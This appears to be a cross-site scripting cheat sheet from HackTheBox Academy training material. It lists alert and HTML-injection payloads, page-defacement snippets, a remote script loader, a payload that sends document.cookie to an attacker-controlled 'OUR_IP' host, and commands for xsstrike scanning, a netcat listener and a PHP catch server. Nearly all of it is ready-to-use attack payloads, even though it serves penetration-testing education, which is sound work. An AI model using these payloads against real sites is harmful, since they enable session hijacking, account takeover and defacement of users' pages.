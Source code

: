 
### Basic Payloads

### Basic alert XSS

```html
<script>alert(window.origin)</script>
```

### Plaintext injection

```html
<plaintext>
```

### Basic print execution

```html
<script>print()</script>
```

### HTML-based alert XSS

```html
<img src="" onerror=alert(window.origin)>
```

### DOM Manipulation

### Change background color

```html
<script>document.body.style.background = "#141d2b"</script>
```

### Change background image

```html
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```

### Change website title

```html
<script>document.title = 'HackTheBox Academy'</script>
```

### Overwrite website's main body

```html
<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>
```

### Remove specific HTML element

```html
<script>document.getElementById('urlform').remove();</script>
```

### Advanced Payloads

### Load remote script

```html
<script src="http://OUR_IP/script.js"></script>
```

### Send cookie data to attacker

```html
<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>
```

---

## Common Commands

### Scanning and Exploitation

### Run xsstrike on a URL parameter

```bash
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"
```

### Networking

### Start netcat listener

```bash
sudo nc -lvnp 80
```

### Start PHP server

```bash
sudo php -S 0.0.0.0:80
```
